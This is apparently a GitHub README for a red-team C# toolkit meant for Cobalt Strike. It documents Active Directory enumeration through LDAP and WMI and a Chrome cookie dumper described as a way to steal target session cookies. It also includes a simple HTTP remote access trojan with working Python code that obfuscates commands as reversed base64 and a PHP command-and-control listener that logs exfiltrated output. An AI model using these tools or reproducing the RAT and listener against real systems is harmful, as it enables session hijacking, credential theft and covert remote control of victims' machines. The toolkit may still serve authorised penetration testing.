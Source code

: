 # RedTeamCSharpScripts
C# Script used for Red Team. These binaries can be used by Cobalt Strike execute-assembly or as standalone executable. 


# LDAP utility

LDAP utility contains several LDAP query that will return all the valuable information you are looking for.

The utility support the following options

```
DumpAllUsers        Dump all the users 
DumpUser            Dump user information based on the samaccountname provided
DumpUsersEmail      Dump all users and email addresses
DumpAllComputers    Dump all computers
DumpComputer        Dump a computer information based on the name provided
DumpAllGroups       Dump all groups
DumpGroup           Dump a group information based on the name provided
DumpPasswordPolicy  Dump domain password policy
CheckManaged        Check GPOs for managedby objects    
```

```
Usage: ldaputility.exe options domain [arguments]

ldaputility.exe DumpAllUsers RingZer0
ldaputility.exe DumpUser RingZer0 mr.un1k0d3r
ldaputility.exe DumpUsersEmail RingZer0
ldaputility.exe DumpAllComputers RingZer0 
ldaputility.exe DumpComputer RingZer0 DC01
ldaputility.exe DumpAllGroups RingZer0
ldaputility.exe DumpGroup RingZer0 "Domain Admins"
ldaputility.exe DumpPasswordPolicy RingZer0
ldaputility.exe DumpPwdLastSet RingZer0
ldaputility.exe DumpLastLogon RingZer0
ldaputility.exe CheckManaged RingZer0
```

The `-verbose` switch can be added to get verbose output.

### The CheckManaged feature

Active Directory support the following two attributes `managedobjects` and `managedby`. These attributes can be used to assign a manager to an object. It can be a user managing a computer. There is a GPO that can be used to grant local admin to managedobjects owner. The user will not be listed as a local admin by default by the correlation between `managedby` and `managedobjects` can identify users that managed computers.

The `CheckManaged` feature first confirm the presence of the GPO in question by looking at the SYSVOL policies present on the DC. If the `groups.xml` is present, it dump all the users with a `managedobjects` attribute and the computers with a `managedby` attribute.

![managedexample](https://raw.githubusercontent.com/Mr-Un1k0d3r/RedTeamCSharpScripts/master/managed.png)

# Cookies Monster

Fetch Chrome cookie in plaintext. Perfect to steal a target session cookie through execute-assembly

```
Usage: CookiesMonster.exe filter
```

The filter argument is optional. If not specified it will dump all the cookies. Since the cookies are encrypted using ProtectedMemory Windows APIs you need to have access to the current user context to be able to generate the proper decryption key. 

The binary need to be compiled statically to include the System.Data.SQLite dll.

# WMI Utility

Set of predefined WMI query that can be used to query CIM classes.

The utility support the following options

```
Usage: WMIUtility.exe options [arguments]

ListProcess         Return a list of running process
ListService         List all the services
Query               Args (query, columns) wmiutility.exe Query "Select * From Win32_CommandLineAccess" "Name,Description"

ListRemoteProcess   Return a list of running process on the target host
ListRemoteService   Return a list of all the services on the target host
Get-EventForUser    Search for 4624 events targeting specific user
RemoteQuery         Args (query, columns) 
Get-Av              Return a list of potential security product

EX:
wmiutility.exe ListRemoteProcess <ComputerName> <Username> <Password>
wmiutility.exe ListRemoteService <ComputerName> <Username> <Password>
wmiutility.exe Get-EventForUser <samAccountname> <DomainController> <Username> <Password>
wmiutility.exe Get-EventForUser <samAccountname> all <Username> <Password>
wmiutility.exe RemoteQuery "Select * From Win32_CommandLineAccess" "Name,Description" <ComputerName> <Username> <Password>
```

# enumerateuser.cs

List all the users samaccountname & mail

```
execute-assembly C:\enumerateuser.exe domain
```

# ldapquery.cs

Perform custom ldap queries

```
execute-assembly C:\enumerateuser.exe ringzer0team "(&(objectCategory=User)(samaccountname=Mr.Un1k0d3r))" samaccountname,mail

Querying LDAP://ringzer0team
Querying: (&(objectCategory=User)(samaccountname=Mr.Un1k0d3r))
Extracting: samaccountname,mail
Mr.Un1k0d3r,Mr.Un1k0d3r@corp.com,
```

# simple-http-rat.cs

A simple RAT that execute command over HTTP. The code is calling back every 10 seconds and will execute the data present on the callback URL.

`rat.exe callbackurl`

The data is obfuscated using the following python trick

```
$ python -c 'import base64; print base64.b64encode("cmd.exe /c whoami")[::-1]'
=kWbh9Ga3ByYvASZ4VmLk12Y
```

The file creation can also be automated using the following script

```
import base64
import sys
import os

path = sys.argv[1]
cmd = sys.argv[2]

if os.path.exists(path):
        os.remove(path)
        
open(path, "w+").write(base64.b64encode(cmd)[::-1])
print "Command added"
```

```
update.py /var/www/html/callback.html "whoami"
```

For the post back RAT the following PHP code can be used to capture the data

```
<?php
$request = (object)array();

if($_SERVER['REQUEST_METHOD'] === "POST") {
        $request->data = file_get_contents("php://input");
        $request->ip = $_SERVER["REMOTE_ADDR"];
        $request->time = date("r");

        $data = str_replace("!)(*&#:<]", "A", $request->data);
        $decoded = base64_decode($data);

        file_put_contents("/tmp/output.txt", "[" . $request->time . "](" . $request->ip . "): " . $decoded . "\r\n", FILE_APPEND);
} else {
        echo file_get_contents("/tmp/payload.txt");
}
?>
```

# Credit

Mr.Un1k0d3r RingZer0 Team

Tazz0 RingZer0 Team

# Contributors

@theFlink for the AV module
